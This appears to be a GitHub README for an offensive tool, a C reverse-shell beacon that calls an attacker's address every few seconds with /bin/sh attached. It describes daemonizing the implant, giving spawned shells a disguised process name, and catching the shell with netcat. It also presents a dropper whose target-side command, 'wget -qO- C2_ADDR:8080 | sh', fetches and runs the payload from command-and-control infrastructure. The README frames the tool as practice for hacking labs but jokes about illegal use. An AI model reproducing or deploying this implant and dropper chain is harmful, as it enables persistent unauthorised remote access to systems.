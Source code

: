 NCBeacon
--------
A small beaconing implant meant to be caught with netcat.  This was written
after watching someone hack [hackthebox](hackthebox.eu) boxes, lose his shell a
few times, and have to re-exploit to get it back.  All it does is call back
every few seconds.

Features
- Calls back with `/bin/sh` hooked up to the TCP connection every 5 seconds
- [Daemonizes](https://man.openbsd.org/daemon) itself
- Dissociates the shells it spawns from the parent process
- Spawned shells have a configurable name (i.e. `argv[0]`)

For legal use only, though you'd probably be doing law enforcement a favor if
you used this for illegal purposes.

Quickstart
----------
1. Build it (replacing the `CALLBACK_ADDRESS` with the correct address)
```sh
cc -O2 -DCBADDR=CALLBACK_ADDRESS -o ncbeacon ncbeacon.c
```
2. Put it on target
```sh
# This one's up to you
```
3. Set up netcat to catch it
```sh
rlwrap nc -nvlp 4444
```
4. Start it, on target
```sh
./ncbeacon
```

Configuration
-------------
There are a few compile-time settings controlled by macros (i.e. -DNAME=VALUE)

Macro    | Required | Default | Description
---------|----------|---------|------------
`CBADDR` | **Yes**  | _None_  | Callback Address
`CBPORT` |  No      | `4444`  | Callback Port
`CBWAIT` |  No      | `5`     | Time between callbacks, in seconds
`SHNAME` |  No      | `knetd` | Name (`argv[0]`) of spawned shells
`DEBUG`  |  No      | _Unset_ | If set, logs errors and prevents backgrounding

Excessive Process Spawning
--------------------------
One of the downsides of spawnining a new process to call back ever few seconds
is that if something accepts the connection and never closes it, the process
doesn't die.  I'm looking at you OpenBSD
[`nc(1)`](https://man.openbsd.org/nc.1).  This can be solved by using a tool
to catch the connection which closes the listening socket after accepting a
connection, such as ncat.

The included program [nccatch](./nccatch.c) will also happily catch a
connection from ncbeacon.  Build it with
```sh
cc -O2 -o nccatch nccatch.c
```

Give it either a port or an address and port, like `./nccatch 4444` or
`./nccatch 127.0.0.1 4444`.

OPSEC Considerations
--------------------
This is bad.

- No encryption
- No authentication
- Very frequent connection attempts
- Very regular connection attempts
- Connects up a shell to stdio (have a look at `/proc/$$/fd`)

In other words, this is pretty much only suitable for HTB and similar safe
environments.  Please don't use this for actual engagements unless you have a
very good reason to.

Dropper
-------
The included [bin2dropper.sh](./bin2dropper.sh) will generate a shell script
which drops and runs a payload.  It takes a payload file and writes to stdout a
script which will drop the payload, run it, and remove it.  Prerequisites on
target are openssl and gunzip.

Example:
```sh
./bin2dropper.sh -d sneaky ./ncbeacon | nc -Nnvl 8080 # On C2 infrastructure
cd /tmp; wget -qO- C2_ADDR:8080 | sh                  # On target
```
This will use wget to grab a script which drops `./ncbeacon` to `/tmp/sneaky`
and runs it as `sneaky`.

You can now mark off "in-memory dropper execution" on your buzzword bingo card.
